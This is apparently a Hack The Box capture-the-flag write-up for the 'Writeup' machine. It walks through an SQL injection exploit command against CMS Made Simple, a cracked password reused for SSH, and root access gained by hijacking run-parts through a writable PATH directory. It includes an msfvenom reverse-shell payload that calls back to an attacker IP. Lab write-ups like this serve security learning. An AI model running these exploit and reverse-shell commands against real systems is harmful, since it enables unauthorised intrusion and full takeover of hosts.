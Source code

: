 ```yaml
---
layout: single
title: Writeup - Hack The Box
excerpt: "The writeup begins with a straightforward unauthenticated vulnerability in CMS Made Simple, which I exploit to retrieve the database credentials. After cracking the user's hash, I discover they reused the same password for SSH, allowing me to access the machine. The privilege escalation is particularly interesting: I have write permissions on /usr/local, enabling me to place a binary payload that gets executed by run-parts when I log in via SSH, as it is invoked without the full path."
date: 2024-11-12
classes: wide
header:
  teaser: /../assets/images/htb-writeup-writeup/writeup_logo.png
  teaser_home_page: true
  icon: /../assets/images/hackthebox.webp
categories:
  - WriteUp
#tags:
 # - linux
  #- sqli
  #- cms
---
```


![](/../assets/images/htb-writeup-writeup/writeup_logo.png)

Writeup starts off easy with an unauthenticated vulnerability in CMS Made Simple that I exploit to dump the database credentials. After cracking the user hash, I can log in to the machine because the user re-used the same password for SSH. The priv esc is pretty nice: I have write access to `/usr/local` and I can write a binary payload in there that gets executed by run-parts when I SSH in because it's called without the full path. Another nice box by jkr.

## Summary

- Unauthenticated SQL injection in CMS Made Simple gives us the password hash which we can crack
- The CMS user / password can be used to SSH in to the server (password re-use)
- The `/usr/local/bin` directory is writable by low-priv user and we can hijack `run-parts` which is run by root when SSHing in (path abuse)

## Tools/Blogs used

- CMS Made Simple < 2.2.10 - SQL Injection (exploits/php/webapps/46635.py)

### Portscan

```
# nmap -p- 10.10.10.138
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-08 22:30 EDT
Nmap scan report for writeup.htb (10.10.10.138)
Host is up (0.018s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 105.16 seconds
```

### Website enumeration

The website contains information about fail2ban or a similar kind of script running to prevent 40x errors. This means that if we try to dirbust the site we'll probably get banned.

![](/../assets/images/htb-writeup-writeup/1.png)

So I checked `robots.txt` and found the following:

```
#              __
#      _(\    |@@|
#     (__/\__ \--/ __
#        \___|----|  |   __
#            \ }{ /\ )_ / _\
#            /\__/\ \__O (__
#           (--/\--)    \__/
#           _)(  )(_
#          `---''---`

# Disallow access to the blog until content is finished.
User-agent: *
Disallow: /writeup/
```

Checking out `http://10.10.10.138/writeup/` I see it's some kind of barebone webpage.

![](/../assets/images/htb-writeup-writeup/2.png)

The links just display different writeups for previous HTB boxes. I couldn't trigger any LFI, RFI or SQL injection from `/writeup/index.php?page=`

There's a hint at the bottom of the page that it's *NOT* made with vim.

![](/../assets/images/htb-writeup-writeup/3.png)

Checking out the source code, I can see it's made with CMS Made Simple.

![](/../assets/images/htb-writeup-writeup/4.png)

### SQL injection in CMS

Checking out searchsploit, I see a whole bunch of exploits for that CMS.

![](../assets/images/htb-writeup-writeup/5.png)

The one I highlighted above is an Unauthenticated SQL Injection that allows an attacker to dump the username and password hash from the database. To exploit it, we just need to pass the URI of the CMS and the wordlist we'll use to crack the password hash:

`python exploit.py -u http://10.10.10.138/writeup/ --crack -w /usr/share/wordlists/rockyou.txt`

![](/assets/images/htb-writeup-writeup/6.png)

We just found the password for user `jkr`: `raykayjay9`

The CMS administration webpage at `http://10.10.10.138/writeup/admin` is protected by an additional HTTP basic web authentication. This is not part of the standard CMS deployment so it was probably added by the box creator. I'm not able to authenticate using the credentials I found in the database and if I try to bruteforce it I get locked out by fail2ban.

However the credentials do work with SSH and I'm able to get a shell and the first flag:

```
# ssh jkr@10.10.10.138
jkr@10.10.10.138's password:
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jkr@writeup:~$ cat user.txt
d4e493...
```

### Privesc

My user is part of the following groups: `uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)`

I ran through the standard Linux enumeration, checking permissions on files and directories, and noticed that I have write access to folders inside `/usr/local`:

```
jkr@writeup:~$ ls -l /usr/local
total 56
drwx-wsr-x 2 root staff 20480 Apr 19 04:11 bin
drwxrwsr-x 2 root staff  4096 Apr 19 04:11 etc
drwxrwsr-x 2 root staff  4096 Apr 19 04:11 games
drwxrwsr-x 2 root staff  4096 Apr 19 04:11 include
drwxrwsr-x 4 root staff  4096 Apr 24 13:13 lib
lrwxrwxrwx 1 root staff     9 Apr 19 04:11 man -> share/man
drwx-wsr-x 2 root staff 12288 Apr 19 04:11 sbin
drwxrwsr-x 7 root staff  4096 Apr 19 04:30 share
drwxrwsr-x 2 root staff  4096 Apr 19 04:11 src
```

However, I can't see the contents of `/usr/local/bin` and `/usr/local/sbin`. This is not a standard Linux distro configuration so the box creator probably changed the permissions on purpose so HTB players can't piggy-back on other players binaries.

I copied `pspy` to the box and found a cronjob running every minute:

![](/assets/images/htb-writeup-writeup/7.png)

I don't have access to the content of the script but it's safe to assume that it deletes files or folders somewhere on the system. I created a test file inside `/usr/local/bin` to see if the script would delete it. After a minute, I saw that the file was removed:

```
jkr@writeup:/usr/local/bin$ echo test > test
jkr@writeup:/usr/local/bin$ cat test
test
jkr@writeup:/usr/local/bin$ cat test
test
jkr@writeup:/usr/local/bin$ cat test
cat: test: No such file or directory
```

Because we can write files into `/usr/local/bin` and `/usr/local/sbin`, we can potentially get RCE since the default path for users is the following:

```
jkr@writeup:/usr/local/bin$ cat /etc/profile
# /etc/profile: system-wide .profile file for the Bourne shell (sh(1))
# and Bourne compatible shells (bash(1), ksh(1), ash(1), ...).

if [ "`id -u`" -eq 0 ]; then
  PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
else
  PATH="/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games"
```

`/usr/local/bin` and `/usr/local/sbin` are preferred over the other paths so it's clear what we need to do here:

 - Find the filename of something that is executed by root (that filename must be executed without the full path)
 - Find the trigger for executing that command as root

I thought I could use `grep` or `iptables` but that didn't work. I think it's because the programs are executed by fail2ban which is started with a modified path as per `/etc/init.d/fail2ban`:

```
PATH=/usr/sbin:/usr/bin:/sbin:/bin
```

I also noticed that the `run-parts` program is executed whenever I SSH in:

![](/assets/images/htb-writeup-writeup/8.png)

> run-parts runs all the executable files named within constraints described below, found in directory  directory. Other files and directories are silently ignored.

I can't make run-parts run arbitrary binaries since I can't write `/etc/update-motd.d/` but because the program is run without the full path I can write my own `run-parts` binary to `/usr/local/bin` or `/usr/local/sbin` and it will be executed instead of the real one because the directory is located in front in the PATH variable definition.

For the malicious binary, I use a standard linux reverse shell payload generated with Metasploit:
```
# msfvenom -p linux/x64/shell_reverse_tcp -f elf -o shell LHOST=10.10.14.7 LPORT=4444
chmod +x ./shell
```

I just need to upload the file to `/usr/local/bin/run-parts` and SSH in to trigger a callback and get root privileges.

![](/assets/images/htb-writeup-writeup/9.png)

